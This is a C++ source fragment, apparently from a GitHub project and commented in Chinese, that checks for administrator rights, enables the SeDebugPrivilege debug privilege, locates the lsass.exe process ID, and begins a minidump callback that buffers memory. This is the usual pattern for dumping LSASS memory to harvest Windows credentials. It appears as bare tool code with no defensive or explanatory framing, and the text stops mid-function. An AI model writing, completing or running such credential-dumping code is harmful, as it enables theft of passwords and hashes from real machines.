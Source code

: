 ```cpp
        if (!CheckTokenMembership(NULL, AdministratorsGroup, &state))
        {
            state = FALSE;
        }
        FreeSid(AdministratorsGroup);
    }

    return state;
}

// 启用调试权限
BOOL EnableDebugPrivilege()
{
    HANDLE hThis = GetCurrentProcess();
    HANDLE hToken;
    OpenProcessToken(hThis, TOKEN_ADJUST_PRIVILEGES, &hToken);
    LUID luid;
    LookupPrivilegeValue(0, TEXT("seDebugPrivilege"), &luid);
    TOKEN_PRIVILEGES priv;
    priv.PrivilegeCount = 1;
    priv.Privileges[0].Luid = luid;
    priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    BOOL isEnabiled = AdjustTokenPrivileges(hToken, false, &priv, sizeof(priv), 0, 0);
    if (isEnabiled) {
        CloseHandle(hToken);
        CloseHandle(hThis);
        return TRUE;
    }
    return FALSE;
}

// 获取 lsass 进程的 PID
DWORD GetLsassPID() 
{
    DWORD lsassPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) 
    {
        while (_wcsicmp(processName, L"lsass.exe") != 0) 
        {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
    }
    return lsassPID;
}


BOOL CALLBACK minidumpCallback(
    __in     PVOID callbackParam,
    __in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
    __inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
{   
    // 定义目标和源的内存地址以及缓冲区大小
    LPVOID destination = 0, source = 0;
    DWORD bufferSize = 0;

```